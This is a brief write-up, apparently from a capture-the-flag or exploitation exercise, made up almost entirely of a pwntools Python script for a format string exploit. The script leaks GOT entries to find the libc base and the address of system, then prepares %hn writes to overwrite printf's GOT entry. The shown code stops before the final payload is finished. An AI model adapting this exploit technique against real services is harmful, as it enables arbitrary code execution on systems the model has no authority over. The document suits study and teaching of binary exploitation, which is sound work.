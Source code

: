 This is a pretty standard format string exploit.

```python
printf_got = 0x0804995c
fflush_got = 0x08049960
fgets_got = 0x08049964
printf_leaked = fmtleaker.d(printf_got)
fgets_leaked = fmtleaker.d(fgets_got)

log.info("printf 0x{:x}".format(printf_leaked))
# log.info("fflush 0x{:x}".format(fflush_leaked))
log.info("fgets 0x{:x}".format(fgets_leaked))

"""
with context.local(log_level='info'):
    de = DynELF(fmtleaker, printf_leaked)

    system0 = de.lookup("system", "libc")
    system = system0
    log.info("found system 0x{:x}".format(system))
"""
# build id: 5ab6a00d805f696b8aa6d0d2ee29d511b41499d1

libc = ELF("./libc-2.19.so")
libc_base = fgets_leaked - libc.symbols["fgets"]
libc.address = libc_base
system = libc.symbols['system']
log.info("found system 0x{:x}".format(system))


target = printf_got

# split system addr in half, for writing with two %hn
target_hi = target + 2
system_hi = (system & 0xffff0000) >> 16
target_lo = target
system_lo = (system & 0xffff)

log.info("system_hi 0x{:x} system_lo 0x{:x}"
         .format(system_hi, system_lo))

o = 14

# debug format string for testing offsets
fmt2 = ""
fmt2 += "%{}$s".format(o)
fmt2 += "\xff"
fmt2 += "%{}$s".format(o + 1)
fmt2 += "\xff"
fmt2 += "\x00" * (28)
fmt2 += p32(target_lo)
fmt2 += p32(target_hi)

log.info(hexdump(fmt2))
vp.sendline(fmt2)

vp.recvline()
log.info(hexdump(vp.recvuntil("\xff")))
log.info(hexdump(vp.recvuntil("\xff")))

# actual format string attack
o = 14
addr_hi = "%{}$hn".format(o + 1)
addr_lo = "%{}$hn".format(o)
```